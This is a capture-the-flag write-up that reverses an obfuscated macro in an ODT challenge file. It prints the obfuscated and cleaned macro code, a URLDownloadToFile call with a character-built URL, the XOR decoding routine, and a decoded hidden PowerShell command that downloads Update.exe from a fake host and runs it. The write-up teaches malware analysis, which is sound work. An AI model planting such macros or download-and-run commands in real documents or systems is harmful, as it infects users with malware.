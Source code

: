 ```yaml
---
title: "FakeCTF - Malware 0x1"
date: 2022-06-18
draft: false
tags: [reverse engineering, malware]
# image: "/image/blog-pic.jpg"
description: "A malware reverse engineering challenge series"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


[Go back to write-ups list](../)

> **Category:** Reverse
> 
> **Creator:** HømardBøy
> 
> **Attachments:**
> - [FakeBonk_Cashout_IT_Department_2022.odt](/files/fakectf/FakeBonk_Cashout_IT_Department_2022.odt)

This challenge gives us an ODT file (that I didn't open, but you can do it at your own risk). Since it was in the Reverse category, we can easily guess we will have to reverse a macro inside the document.

That's aso what the description of the challenge tells us, pointing out that we have to identify the URL of a malicious resource downloaded by this document.

I'm not super familiar with the ODT document format, but I know one thing: the OpenDocument (as well as the Microsoft document format by the way) use ZIP archives! Therefore we can open them with a regular archive software.

![ODT files are ZIP archives](/static/image/fakectf/inside_odt.png)

I looked around and found a file called `Module1.xml` in the folder `Basic/Standard`. This name really reminded me of the default name for Visual Basic classes (and that's the language for used for macros).

In this XML file, we can find the VBA code of the module, which really doesn't look appealing.

![Module1.xml](/static/image/fakectf/module1.png)

The sub that called my attention is the `Main` sub:

```vb
Sub Main
If vqqzycjqjpkhqvovmi() = 0 Then
Dim wzhtvfbpqbuzmustotc, Tmpwzhtvfbpqbuzmustotc As String
Dim hbtogbnfbxcaekszei, regaajfhpscnbmcwmwprjge As String
Dim ytnqvabyudituwreskajsxwdAs As String
Dim lhpvebwowSplit As Integer
If erwgpzsepdzttmjuvnovbwtc() = 1 Then
Tmpwzhtvfbpqbuzmustotc = mpocpedrdedylqthvgzdapya()
wzhtvfbpqbuzmustotc = amwxnlxcctjstjjgqlkspqnm(Tmpwzhtvfbpqbuzmustotc)
hbtogbnfbxcaekszei = cxyhvqmc(Tmpwzhtvfbpqbuzmustotc & wzhtvfbpqbuzmustotc)
regaajfhpscnbmcwmwprjge = qbyghksgdipg(hbtogbnfbxcaekszei)
regaajfhpscnbmcwmwprjge = yqzfgdmt(regaajfhpscnbmcwmwprjge)
rukbizjwgxckvFlag(regaajfhpscnbmcwmwprjge)
...
```

Once we clean and translate it a bit, we get:

```vb
Sub Main
    Dim FileName, FolderPath As String
    Dim FileContent, DecryptedCode As String
    FolderPath = CreateTempFolder()
    FileName = DownloadCode(FolderPath)
    FileContent = ReadFile(FolderPath & FileName)
    DecryptedCode = ReplaceThings(FileContent)
    DecryptedCode = Decrypt(DecryptedCode)
    Run(DecryptedCode)
    ...
```

First I checked this "DownloadCode" sub. It calls an external function from Windows called `URLDownloadToFile`, and since it is imported in the code, we can find its signature:

```vb
Private Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" _
    (ByVal pCaller As Long, _
    ByVal szURL As String, _
    ByVal szqegxabjgwrvivilr As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As Long) As Long
```

From this, we infer that the URL is the second argument.

Next, something we can find accross the whole script is the way it builds strings. For example:

```vb
wbsggcbesxgmx = Chr(104) & "" & Chr(116) & "" & Chr(116) & "" & Chr(112) & "" & Chr(115) & "" & Chr(58) & "" & Chr(47) & "" & Chr(47) & "" & Chr(114) & "" & Chr(101) & "" & Chr(110) & "" & Chr(116) & "" & Chr(114) & "" & Chr(121) & "" & Chr(46) & "" & Chr(99) & "" & Chr(111) & "" & Chr(47) & "" & Chr(116) & "" & Chr(54) & "" & Chr(57) & "" & Chr(104) & "" & Chr(104) & "" & Chr(52) & "" & Chr(47) & "" & Chr(114) & "" & Chr(97) & "" & Chr(119) & ""
URLDownloadToFile(ynkgtlqhx, wbsggcbesxgmx, Macrokvjymzmbg, ynkgtlqhx, ynkgtlqhx)
```

I chose this example on purpose because it builds the string used as the URL. The resulting URL is: `https://rentry.co/t69hh4/raw`

I tried this URL as the flag but obviously it couldn't be that simple. In fact, the content of this file is a very big number:

```
509923764891063459923764891063539923764891063399923764891063489923764891063499923764891063429923764891063399923764891063469923764891063469923764891063108992376489106339992376489106358992376489106339992376489106398992376...
```

So let's look at the other subs:

```vb
Sub ReplaceThings(BigNumber As String) As String
    Dim result As String
    result = Replace(BigNumber, "9657665657376593676575387986", "")
    result = Replace(BigNumber, "9923764891063", " ")
    Return result
End Sub
```

```vb
Sub Decrypt(EncryptedString As String) As String
    Dim Characters() As Integer
    Dim c As Integer
    Dim result As String
    result = ""
    Characters = Split(EncryptedString, " ")
    for each c in Characters
        Dim DecryptedChar = c XOR 66
        result = result & Chr(DecryptedChar)
    next
    Return result
End Sub
```

From there, decrypting the text becomes fairly easy, by using those two functions. We then get:

```powershell
powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile("http://microsoft.security.update.fake/files/Update.exe","$env:APPDATA\\Update.exe"); Start-Process ("$env:APPDATA\\Update.exe")
```

And we get a new URL which is the flag:  `http://microsoft.security.update.fake/files/Update.exe`

[Go back to write-ups list](../)